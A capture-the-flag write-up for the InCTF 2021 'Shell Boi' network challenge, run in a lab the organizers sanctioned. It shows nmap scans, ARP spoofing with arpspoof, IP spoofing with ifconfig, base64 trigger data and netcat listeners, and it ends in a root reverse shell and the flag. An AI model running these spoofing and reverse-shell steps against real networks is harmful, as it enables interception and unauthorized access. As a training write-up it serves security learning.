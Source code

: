 # Shell Boi - InCTF 2021 [11 solves] [956 points] [First Blood 🩸]
## Description
```
He sells linux shells on the shell store.

Author: f4lcon
```
[OpenVPN Config](https://ctf.bi0s.in/pentest/config/55)

---

## Solution
An openvpn file is provided to connect to the network
```
tap0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.30.0.14  netmask 255.255.255.240  broadcast 0.0.0.0
        inet6 fe80::24d0:c6ff:fe0b:74d2  prefixlen 64  scopeid 0x20<link>
        ether 26:d0:c6:0b:74:d2  txqueuelen 1000  (Ethernet)
        RX packets 9  bytes 702 (702.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 6  bytes 516 (516.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
The network is having a 255.255.255.240 netmask, so I scan the entire network with nmap using -sP/-sn with the CIDR notation of /28
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-14 08:02 HKT
Nmap scan report for 172.30.0.5
Host is up (0.16s latency).
MAC Address: 02:42:0C:94:44:7F (Unknown)
Nmap scan report for 172.30.0.8
Host is up (0.17s latency).
MAC Address: 02:42:55:F9:1F:2B (Unknown)
Nmap scan report for 172.30.0.14
Host is up.
Nmap done: 16 IP addresses (3 hosts up) scanned in 16.15 seconds
```
Except my vm, there are 2 hosts found on the network : 172.30.0.5, 172.30.0.8

Then I scan ports of both hosts, 172.30.0.8 has no port opened, and 172.30.0.5 has port 1337 opened

However nmap could not recognise what service is running on port 1337
```
1337/tcp open  tcpwrapped syn-ack ttl 64
```

I tried to connect to that port using netcat, but has no idea how that service is used.

So I was thinking why 172.30.0.8 is in the network, as it has no open port

Inspired by the previous network pentest challenge 'listen', I tried to use wireshark to see if any host is attemping to connect to us, but there isn't any.

Then I asked the organizer if arp spoofing is allowed on the network, which they replied that it is allowed 

Then I try to use do arp spoofing in order to be able to capture traffic between that 2 hosts :

```
arpspoof -i tap0 -t 172.30.0.8 -r 172.30.0.5
```
Also, I forward the traffic to the correct host after capturing, in order to avoid causing a DoS to the network :
```
echo 1 > /proc/sys/net/ipv4/ip_forward
```
Then I capture traffic using wireshark :

![1.png](images/1.png)

This look like a reverse shell, sending from 172.30.0.5 to 172.30.0.8

What is happening before the reverse shell is sent, is that 172.30.0.8 sending some base64 data to port 1337 of 172.30.0.5 :
```
MTcyLjMwLjAuOA==
MzYxMTk=
```
Which after decoded is the ip address and a port that the reverse shell will connect to :
```
172.30.0.8
36119
```
After the base64 data is send to port 1337 of 172.30.0.5, 172.30.0.5 will send back a reverse shell to the ip address and port in the base64 data

So I changed the base64 data to my ip address and I listen to that port 36119 :
```
nc -nlvp 36119
```
Then I save the base64 data needed to be sent in a file called input, and send the data to port 1337 of 172.30.0.5 using netcat
```
nc -nv 172.30.0.5 1337 < input
```
However I'm not receiving a reverse shell as expected

So I use wireshark to capture the traffic and see what is happening, after the connection is established and the data is sent, 172.30.0.5 is sending back packet with RST,ACK flags set which close the TCP connection

I see that 172.30.0.8 is successfully getting a reverse shell, so I try to do arp spoof against 172.30.0.5 and spoof the ip address of 172.30.0.8 :

```
arpspoof -i tap0 -t 172.30.0.5 172.30.0.8
```
```
ifconfig tap0 172.30.0.8 netmask 255.255.255.240
```
Then change the content of the input file to 172.30.0.8 and the port 36119 in base64 format :
```
MTcyLjMwLjAuOA==
MzYxMTk=
```
Listen on port 36119 :
```
nc -nlvp 36119
```
Then send the base64 data to port 1337 :
```
nc -nv 172.30.0.5 1337 < input
```
Finally, I received the reverse shell :
```
# nc -nlvp 36119
listening on [any] 36119 ...
connect to [172.30.0.8] from (UNKNOWN) [172.30.0.5] 47864
bash: cannot set terminal process group (1587): Inappropriate ioctl for device
bash: no job control in this shell
root@2469a4703515:/# 
```
The flag is just in /root/flag.txt :
```
root@2469a4703515:/# cd /root
cd /root
root@2469a4703515:~# ls -la
ls -la
total 20
drwx------ 1 root root 4096 Aug 13 19:48 .
drwxr-xr-x 1 root root 4096 Aug 14 04:03 ..
-rw-r--r-- 1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rw-r--r-- 1 root root   31 Aug 13 15:40 flag.txt
root@2469a4703515:~# cat flag.txt
cat flag.txt
inctf{Ha!Security_1s_4_my7h!!!}
```

---

## Flag
```
inctf{Ha!Security_1s_4_my7h!!!}
```